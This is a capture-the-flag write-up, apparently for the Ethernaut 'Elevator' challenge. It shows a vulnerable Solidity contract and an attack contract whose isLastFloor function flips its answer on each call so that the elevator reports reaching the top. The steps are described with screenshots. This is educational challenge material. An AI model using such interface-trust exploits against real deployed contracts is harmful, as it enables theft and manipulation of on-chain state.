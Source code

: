 # Task

This elevator won't let you reach the top of your building. Right?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
This Solidity contract simulates an elevator system with two main components: `Building` and `Elevator`. The `Elevator` contract has a `goTo` function that takes a floor number and interacts with a `Building` contract (the caller). It first checks if the floor is the last floor using the `isLastFloor` function from the `Building` contract. If it's not the last floor, it updates the current floor and checks again to determine if the elevator is at the top floor. The `top` variable reflects whether the elevator has reached the top floor.

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/516d6c35-6444-48f6-aaa2-42618867c170)

We'll start out by using cast to check the state of the elevator

![image](https://github.com/user-attachments/assets/fb8e9fdf-ab41-4ed3-ad3e-f26a50dcd251)

We get the "false" response, this means we aren't at the top of the building yet

Lets check the floor we are at

![image](https://github.com/user-attachments/assets/111dcded-99a1-4041-bc06-9c533ab567f9)

We are at floor "0".

To solve this chall we have to be on the last floor. Lets write our attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./elevator.sol";

contract elevatorAttack {
   bool public toggle = true;
   Elevator public target;

   constructor(address _targetAddr) public {
    target = Elevator(_targetAddr);
   }
   
   function isLastFloor(uint) public returns (bool) {
        toggle = !toggle;
        return toggle;
   }

    function setTop(uint _floor) public {
        target.goTo(_floor);
    }
}
```
what does this attack contract do??

1. It imports the `Elevator` contract and sets it as the target during construction (constructor).
2. The `isLastFloor` function alternates (toggles) between returning true and false on each call.
3. By alternating the `isLastFloor` return value, the `goTo` function in the `Elevato`r contract can be tricked into thinking it hasn’t reached the top floor, even when it has, due to the changing return value.
4. The `setTop` function is used to call the `goTo` function in the `Elevator` contract, exploiting this behavior to bypass the condition and manipulate the elevator's top status.


Lets deploy this attack contract with forge

![image](https://github.com/user-attachments/assets/65925b13-aaa0-44a1-bbfa-82150462beb8)

Now that we've successfully deployed this, lets interact with the functions

We'll start by setting the top to say "floor 20" 

![image](https://github.com/user-attachments/assets/61aa3195-57ba-409d-a65b-90c9475a6a52)

Nicee, our transaction got successful

Now, lets check the floor again

![image](https://github.com/user-attachments/assets/c5b0cedd-c783-4f62-b0e3-91427dd2b15e)

Good, we can now go ahead to check if we are at the top of the elevator or not

![image](https://github.com/user-attachments/assets/e116090a-dc35-45a4-8e9f-904159927b57)

We got the "true" output, which means we have successfully reached the top of the building

You can go ahead to submit the instance

![image](https://github.com/user-attachments/assets/54e745ce-906d-488e-8902-2e78cc499218)

-----------------------------

Till Next Time :xD





































